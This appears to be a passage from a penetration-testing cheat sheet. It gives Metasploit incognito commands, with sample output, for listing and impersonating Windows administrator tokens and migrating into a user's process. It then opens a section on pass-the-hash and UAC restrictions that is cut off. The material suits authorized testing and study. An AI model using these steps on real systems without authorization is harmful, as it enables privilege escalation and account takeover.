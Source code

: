 
## Impersonate Tokens

**Metasploit - incognito**

```sh
load incognito
list_tokens -u
```

```sh
 Delegation Tokens Available
 ========================================
 ANYTHING\Administrator
 NT AUTHORITY\LOCAL SERVICE
 
 Impersonation Tokens Available
 ========================================
 No tokens available
```

```sh
impersonate_token <token_name>
# E.g. impersonate_token ANYTHING\\Administrator 
# Note: the two backslashes
```

```sh
# You may need to migrate process to a <user> process
getpid
ps     
# PID: 2948 | PPID: 2036 NAME: explorer.exe | ARCH: X64 | SESSION:1 | USER: ANYTHING\Administrator | PATH: C:\Windows\explorer.exe

# Migrate process
migrate 2948
```

---

## Authentication Attacks

### Pass the Hash

Pass-the-Hash is a technique where you authenticate as a user without knowing the plaintext password. Instead, you can use the NTLM hash of the password to gain access to systems and resources. This attack works with network protocols that use NTLM authentication, such as **SMB**, **RDP**, and **WinRM**.

{{< hint style=notes >}}
**UAC Remote Restrictions**

By default, User Account Control (UAC) prevents local administrator accounts from performing remote administration tasks.

